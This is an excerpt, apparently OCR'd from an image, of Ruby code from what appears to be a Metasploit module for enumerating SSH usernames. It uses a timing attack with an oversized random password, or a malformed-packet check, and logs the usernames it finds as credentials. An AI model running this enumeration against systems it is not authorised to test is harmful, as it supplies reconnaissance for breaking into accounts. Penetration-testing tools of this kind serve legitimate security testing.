 ````bash
    start_time = Time.new

    begin
      ssh = Timeout.timeout(datastore['SSH_TIMEOUT']) do
        Net::SSH.start(ip, user, opts)
      end
    rescue Rex::ConnectionError
      return :connection_error
    rescue Timeout::Error
      return :success if technique == :timing_attack
    rescue Net::SSH::AuthenticationFailed
      return :fail if technique == :malformed_packet
    rescue Net::SSH::Exception => e
      vprint_error("#{e.class}: #{e.message}")
    end

    finish_time = Time.new

    case technique
    when :malformed_packet
      return :success if ssh
    when :timing_attack
      return :success if (finish_time - start_time > threshold)
    end

    :fail
  end

  def rand_pass
    Rex::Text.rand_text_english(64_000..65_000)
  end

  def do_report(ip, user, _port)
    service_data = {
      address: ip,
      port: rport,
      service_name: 'ssh',
      protocol: 'tcp',
      workspace_id: myworkspace_id
    }

    credential_data = {
      origin_type: :service,
      module_fullname: fullname,
      username: user
    }.merge(service_data)

    login_data = {
      core: create_credential(credential_data),
      status: Metasploit::Model::Login::Status::UNTRIED
    }.merge(service_data)

    create_credential_login(login_data)
  end

  # Because this isn't using the AuthBrute mixin, we don't have the
  # usual peer method
  def peer(rhost = nil)
    "#{rhost}:#{rport} - SSH -"
  end

  def user_list
    users = []
````